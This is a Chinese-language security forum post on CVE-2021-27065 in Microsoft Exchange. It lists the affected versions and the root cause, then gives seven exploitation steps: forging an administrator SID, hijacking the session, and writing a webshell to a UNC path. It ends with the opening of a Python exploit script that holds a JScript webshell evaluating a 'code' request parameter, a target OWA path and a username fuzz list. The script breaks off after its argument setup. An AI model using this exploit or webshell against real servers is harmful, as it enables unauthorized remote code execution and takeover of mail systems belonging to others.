 [![v6dPwF.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-892322da37802f185c1446841ee9ae3531436bfe.png)](https://imgse.com/i/v6dPwF)

### CVE-2021-27065

##### 影响范围

- Exchange Server 2019 &lt; 15.02.0792.010
- Exchange Server 2019 &lt; 15.02.0721.013
- Exchange Server 2016 &lt; 15.01.2106.013
- Exchange Server 2013 &lt; 15.00.1497.012 ##### 漏洞原理
    
    `Microsoft.Exchange.Management.DDIService.WriteFileActivity`未校验文件后缀，可由文件内容部分可控的相关功能写入webshell。
    
    ##### 利用过程

1. 请求EWS，从`X-CalculationBETarget`响应头获取域名

[![v6dkFJ.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-f6273b93f3a49130e594542d49d097a6a2fb1a96.png)](https://imgse.com/i/v6dkFJ)

2. 利用邮箱用户名，请求Autodiscover获取配置中的LegacyDN  
    [![vysLs1.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-def6d42edd6477f9b54ae0a60f879698708d3897.png)](https://imgse.com/i/vysLs1)
3. 利用`MAPI over HTTP`请求引发`Microsoft.Exchange.RpcClientAccess.Server.LoginPermException`获取SID
4. 替换尾部RID为500伪造管理员SID，由ProxyLogonHandler获取管理员身份`ASP.NET_SessionId`与`msExchCanary`
5. 通过DDI组件Getlist接口获取RawIdentity
6. 利用外部URL虚拟路径属性引入Webshell
7. 最后出发重置时的备份功能，将文件写入指定的UNC目录

**注意：webshell的内容需要规避会被URL编码的特殊字符，且字符长度不能超过255**  
**可以利用以下python脚本进行自动化测试**

```python
# -*- coding: utf-8 -*-
import requests
from urllib3.exceptions import InsecureRequestWarning
import random
import string
import argparse
import sys
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

fuzz_email = ['administrator', 'webmaste', 'support', 'sales', 'contact', 'admin', 'test',
              'test2', 'test01', 'test1', 'guest', 'sysadmin', 'info', 'noreply', 'log', 'no-reply']

proxies = {}
user_agent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36"

shell_path = "Program Files\\Microsoft\\Exchange Server\\V15\\FrontEnd\\HttpProxy\\owa\\auth\\test11.aspx"
shell_absolute_path = "\\\\127.0.0.1\\c$\\%s" % shell_path
# webshell-马子内容
shell_content = '<script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["code"],"unsafe");}</script>'

final_shell = ""

def id_generator(size=6, chars=string.ascii_lowercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))

if __name__=="__main__":
    parser = argparse.ArgumentParser(
        description='Example: python exp.py -u 127.0.0.1 -user administrator -suffix @ex.com\n如果不清楚用户名，可不填写-user参数，将自动Fuzz用户名。')
```